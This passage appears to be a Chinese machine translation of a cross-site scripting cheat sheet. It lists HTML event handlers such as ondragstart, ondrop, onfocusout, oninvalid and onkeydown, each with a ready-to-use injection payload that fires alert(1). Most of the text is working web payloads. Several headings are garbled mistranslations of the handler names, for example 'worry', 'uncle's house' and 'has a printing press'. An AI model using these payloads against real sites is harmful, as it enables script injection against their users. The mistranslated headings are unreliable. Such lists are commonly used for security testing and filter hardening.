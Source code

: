```
<xss draggable="true" ondragstart="alert(1)" style=display:block>test</xss>
```

#### **ondrop**

触发了拖放可拖动元素

```
<div draggable="true" contenteditable>drag me</div><xss ondrop=alert(1) contenteditable style=display:block>drop here</xss>
```

#### 担心

当元素失去焦点时激发

```
<xss onfocusout=alert(1) id=x tabindex=1 style=display:block>test</xss><input value=clickme>
```

#### **信任筛选变更**

当视频改变全屏状态时激发

```
<video onfullscreenchange=alert(1) src=validvideo.mp4 controls>
```

#### **oninput**

需要更改值

```
<input oninput=alert(1) value=xss>
```

#### **精氨酸有效**

要求表单提交具有不满足其约束的元素，如必需的属性

```
<form><input oninvalid=alert(1) required><input type=submit>
```

#### **叔叔家**

按键时触发

```
<xss onkeydown="alert(1)" contenteditable style=display:block>test</xss>
```

#### **有一台印刷机**

按键时触发

```
<xss onkeypress="alert(1)" contenteditable style=display:block>test</xss>
```
